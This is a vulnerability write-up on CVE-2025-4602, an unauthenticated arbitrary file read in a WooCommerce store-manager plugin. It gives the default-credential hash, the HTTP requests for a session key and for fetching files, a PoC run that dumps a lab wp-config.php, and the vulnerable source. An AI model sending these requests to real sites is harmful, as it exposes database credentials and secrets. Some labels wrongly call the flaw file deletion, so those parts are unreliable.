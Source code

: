 +++
title = 'eMagicOne Store Manager for WooCommerce <= 1.2.5 - Unauthenticated Arbitrary File Read'
date = 2025-05-23T05:10:12+00:00
hideToc = true
+++
### CVE-2025-4602

The [eMagicOne Store Manager for WooCommerce](https://wordpress.org/plugins/store-manager-connector/) plugin exposes a remote management protocol endpoint (`?connector=bridge`) that allows file deletion operations on the server. The authentication mechanism relies on a default credential pair (`login=1`, `password=1`) and a session key system. If the default credentials are not changed, an attacker can trivially authenticate, obtain a session key, and read arbitrary files from the WordPress root or any accessible directory.


## Reproduction
A POC [CVE-2025-4602.py](https://github.com/d0n601/CVE-2025-4602/blob/master/CVE-2025-4602.py) is provided to demonstrate reading the `wp-config.php` file from the server.

```
python3 CVE-2025-4602.py https://lab1.hacker --file wp-config.php
[*] Requesting session key...
[*] Raw response: {"response_code":20,"revision":11,"module_version":"1.2.5","session_key":"38933ee55aa61baf8bf4206494ec83c16c921980de6d5053f631172f0cad1cbc"}
[+] Got session key: 38933ee55aa61baf8bf4206494ec83c16c921980de6d5053f631172f0cad1cbc
[*] Getting file...
[*] File Content: <?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the website, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://developer.wordpress.org/advanced-administration/wordpress/wp-config/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'lab1' );

/** Database username */
define( 'DB_USER', 'homestead' );

/** Database password */
define( 'DB_PASSWORD', 'secret' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
...
...
...
...
...
```



## Vulnerable Flow
### Default Credentials and Hash Calculation

On plugin activation, the following constants are set in `smconnector.php`:

```php
define( 'EMO_SMC_DEFAULT_LOGIN', '1' );
define( 'EMO_SMC_DEFAULT_PASSWORD', '1' );
```

The default hash used for authentication is:
```php
'smconnector_hash'   => md5( EMO_SMC_DEFAULT_LOGIN . EMO_SMC_DEFAULT_PASSWORD ),
```
**Result:** The default hash is `md5('1' . '1')` = `c4ca4238a0b923820dcc509a6f75849b`.


### Session Key Acquisition
A session key is obtained by sending a POST request to the bridge endpoint with the hash and a task (e.g., `get_version`):

```http
POST /?connector=bridge
Content-Type: application/x-www-form-urlencoded

hash=c4ca4238a0b923820dcc509a6f75849b&task=get_version
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~441-525):

```php
private function check_auth() {
    if ( $this->shop_cart->isset_request_param( 'key' ) ) {
        // ... session key validation ...
    } elseif ( $this->shop_cart->isset_request_param( 'hash' ) ) {
        $hash = (string) $this->shop_cart->get_request_param( 'hash' );
        if ( ! $this->is_hash_valid( $hash ) ) {
            // ... error ...
        }
        $key = $this->generate_session_key( $hash );
        // ... return session key ...
    }
}
```

---

### Session Key Storage
The session key is stored in the `wp_smconnector_session_keys` table:

```php
private function generate_session_key( $hash ) {
    $key = hash( 'sha256', $hash . $timestamp );
    $sql = 'INSERT INTO `' . self::TABLE_SESSION_KEYS
        . "` (`session_key`, `date_added`, `last_activity`) VALUES ('" . $this->shop_cart->p_sql( $key ) . "', '"
        . $date . "', '" . $date . "')";
    $this->shop_cart->exec_sql( $sql );
    return $key;
}
```




### Arbitrary File Read
With a valid session key, an attacker can read a files using the `get_file` task:


```http
POST /?connector=bridge&task=get_file&key=<session_key>&entity_type=.&filename=wp-config.php

```

**Relevant code:**
`classes/class-emosmconnectorcommon.php` (lines ~2219+):

```php
2219	        /** Get file */
2220	        private function get_file() {
2221	                if ( ! $this->shop_cart->isset_request_param( 'entity_type' ) ) {
2222	                        $this->generate_error( $this->br_errors['entitytype_param_missing'] );
2223	                }
2224	
2225	                if ( ! $this->shop_cart->isset_request_param( 'filename' ) ) {
2226	                        $this->generate_error( $this->br_errors['filename_param_missing'] );
2227	                }
2228	
2229	                $entity_type = (string) $this->shop_cart->get_request_param( 'entity_type' );
2230	                $filename    = (string) $this->shop_cart->get_request_param( 'filename' );
2231	
2232	                if ( empty( $entity_type ) ) {
2233	                        $this->generate_error( $this->br_errors['entitytype_param_empty'] );
2234	                }
2235	
2236	                if ( empty( $filename ) ) {
2237	                        $this->generate_error( $this->br_errors['filename_param_empty'] );
2238	                }
2239	
2240	                $file_path = $this->shop_cart->get_file( $entity_type, $filename );
2241	
2242	                if ( $file_path && $this->shop_cart->file_exists( $file_path ) ) {
2243	                        header( 'Content-Type: image/jpeg' );
2244	                        header( 'Content-Length: ' . $this->shop_cart->file_size( $file_path ) );
2245	                        readfile( $file_path );
2246	                } else {
2247	                        $this->generate_error( 'File is missing' );
2248	                }
2249	        }
```


File deletion in `class-emosmcwoocommerceoverrider.php` (lines ~380+)::
```php
426	        public function get_file( $folder, $filename ) {
427	                $folder   = trim( $folder, '/' );
428	                $filename = ltrim( $filename, '/' );
429	                if ( empty( $folder ) ) {
430	                        return $this->get_shop_root_dir() . $filename;
431	                }
432	
433	                return $this->get_shop_root_dir() . "$folder/$filename";
```
**Result:** The file is returned from the server.
